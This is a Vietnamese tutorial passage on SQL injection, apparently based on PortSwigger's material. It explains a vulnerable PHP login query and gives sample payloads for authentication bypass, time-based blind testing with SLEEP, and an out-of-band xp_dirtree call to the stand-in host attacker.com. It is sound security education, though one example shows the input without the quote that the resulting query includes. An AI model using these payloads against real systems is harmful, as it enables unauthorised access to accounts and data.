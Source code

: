 # LỖ HỔNG SQL INJECTION (PORTSWIGGER)

---

## 1. SQL injection là gì?

- SQL Injection (SQLi) là một lỗ hổng bảo mật cho phép kẻ tấn công chèn (inject) mã SQL độc hại vào câu truy vấn của ứng dụng để:

  - Truy xuất dữ liệu không được phép

  - Thay đổi, chèn, hoặc xóa dữ liệu

  - Thực hiện các hành vi khác như lấy tài khoản admin, RCE (trong một số trường hợp nâng cao.

- Về bản chất của lỗ hổng SQLi: Khi ứng dụng web nhận input từ người dùng và nhúng trực tiếp vào câu truy vấn SQL mà không kiểm tra hoặc lọc kỹ, hacker có thể thêm đoạn mã SQL độc hại để thao túng truy vấn.

- Ví dụ giả sử đoạn code phía backend xử lý login như sau (PHP + MySQL):

```php
$username = $_POST['username'];
$password = $_POST['password'];

$sql = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```

- Nếu người dùng nhập:

```bash
username: admin
password: ' OR '1'='1
```

- Câu truy vấn sẽ trở thành:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1'
```

&rarr;  OR '1'='1' luôn đúng → Hacker đăng nhập được không cần mật khẩu.

## 2. Cách phát hiện lỗ hổng SQL injection

- **Dùng ký tự dấu nháy đơn ' để tìm lỗi**: Đây là một ký tự đặc biệt trong SQL, dùng để bao quanh giá trị dạng chuỗi. Nếu ứng dụng không xử lý đúng input này, nó sẽ làm câu lệnh SQL bị lỗi cú pháp, dẫn đến báo lỗi từ cơ sở dữ liệu.
  
  Giả sử ta có đoạn query bên trong web:

  ```sql
  SELECT * FROM users WHERE username = '$input';
  ```

  Khi người dùng nhập: admin &rarr; câu query trở thành:

  ```sql
  SELECT * FROM users WHERE username = 'admin'';
  ```

  &rarr; Nếu web trả lại lỗi từ SQL (như "syntax error" hoặc "unclosed quotation mark"), có thể tồn tại SQL injection.

- **Dùng điều kiện Boolean (OR 1=1, OR 1=2) để phân biệt**: Dùng những biểu thức đúng/sai trong SQL để kiểm tra phản hồi có thay đổi hay không.

  Giả sử form login có SQL:

  ```sql
  SELECT * FROM users WHERE username = '$user' AND password = '$pass';
  ```

  Khi nhập: user = admin' OR 1=1 -- → câu lệnh trở thành:

  ```sql
  SELECT * FROM users WHERE username = 'admin' OR 1=1 -- ' AND password = 'abc';
  ```

  Do 1=1 luôn đúng, câu lệnh trả về tất cả người dùng → có thể login mà không cần mật khẩu.

- **Dùng payload gây delay (Time-based Blind SQLi)**: Khi ứng dụng không hiển thị lỗi hay khác biệt về nội dung, ta thử gây chậm phản hồi bằng SQL. Nếu server chậm phản hồi đúng như thời gian delay → có thể bị SQLi.

  Ví dụ với MySQL:

  ```sql
  admin' AND SLEEP(5) --
  ```

  Nếu server mất khoảng 5 giây mới trả lời → xác nhận SQL injection tồn tại.

- **OAST payloads (Out-Of-Band Application Security Testing)**: Payload SQL được thiết kế để kích hoạt truy cập mạng đến một máy chủ. Nếu thấy có yêu cầu đến server bạn kiểm soát, thì lỗ hổng tồn tại.

  Ví dụ: với SQL Server, dùng:

  ```sql
  '; exec xp_dirtree('\\attacker.com\test') --
  ```

  → Nếu server gửi truy vấn DNS đến attacker.com, ta biết SQLi đã thực thi.

- Ngoài ra, SQLi có thể tồn tại trong bất ký vị trí nào trong câu truy vấn, và trong nhiều kiểu truy vấn khác nhau: WHERE, UPDATE, INSERT, ORDER BY, ...

  
  

